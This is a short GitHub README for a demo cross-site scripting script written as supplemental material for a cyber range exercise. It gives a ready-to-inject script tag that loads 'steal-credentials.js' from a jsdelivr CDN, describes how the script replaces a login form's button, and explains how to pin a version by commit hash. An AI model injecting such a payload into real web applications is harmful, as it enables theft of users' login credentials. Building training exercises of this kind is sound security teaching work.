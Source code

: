 # Introduction

This script is intended for educational purposes only, and was created as supplemental material for a cyber range event. This code does not perform any actual malicious code, and should not be used for malicious purposes.

This is a demo XSS script that can be injected into a vulnerable web application by XSS reflection. The script will grab the login form, delete the original login button, and create a new button with a demo "malicious" script attached to it.

# To use

The script can be referenced from a script tag using jsdelivr CDN:

<script type="text/javascript" src="https://cdn.jsdelivr.net/gh/barrcodes/xss/steal-credentials.js" ></script>

# To access a specific version

As CDNs should, jsdelivr caches the most recent version of the script. Sometimes you will be pulling an old version of the code, in which case you need to edit the above src path to say `xss@hash/steal-credentials.js` replacing "hash" with a commit hash. For example, the most recent version as of writing this readme is:

https://cdn.jsdelivr.net/gh/barrcodes/xss@6f7ad5044e425514c856432a2adf4f6d61998535/steal-credentials.js
